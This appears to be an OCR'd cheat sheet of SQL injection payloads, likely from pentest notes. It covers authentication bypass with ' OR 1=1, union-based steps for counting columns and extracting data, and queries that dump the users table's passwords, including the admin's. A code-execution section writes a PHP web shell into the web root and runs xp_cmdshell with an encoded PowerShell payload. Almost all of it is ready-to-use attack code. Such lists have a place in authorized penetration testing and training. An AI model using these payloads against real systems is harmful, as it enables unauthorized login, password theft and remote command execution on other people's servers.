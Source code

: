 #### Authentication Bypass

```
#Standard auth bypass will log in as the first user in the database table.
' OR 1=1 -- //

#Select all data from table users.
' OR 1=1 in (SELECT * FROM users) -- //

#Select all passwords from table users.
' or 1=1 in (SELECT password FROM users) -- //

#Select password from username admin. 
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
#### Union Injection
1. Enter SQLi characters to try and get a server error indicating a potential vulnerability.
2. Enter a UNION SQLi payload to try and get the server to respond with an error indicating the columns selected is wrong.
3. Continue to add a NULL column to each payload until it is accepted by the server with no error response.

```
#Identify how many columns returned in query.
'UNION SELECT NULL-- //
'UNION SELECT NULL,NULL-- //
'UNION SELECT NULL,NULL,NULL-- //

#Identify which columns can return string data.
'UNION SELECT 'a',NULL,NULL,NULL-- //

#Extract data.
'UNION SELECT <column>, <column>, FROM table -- //
```
#### Code Execution

```
#Upload a shell.
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

#Execute Commands
' EXEC xp_cmdshell 'powershell -E <base64_payload>'; --
' EXEC xp_cmdshell "net user";
```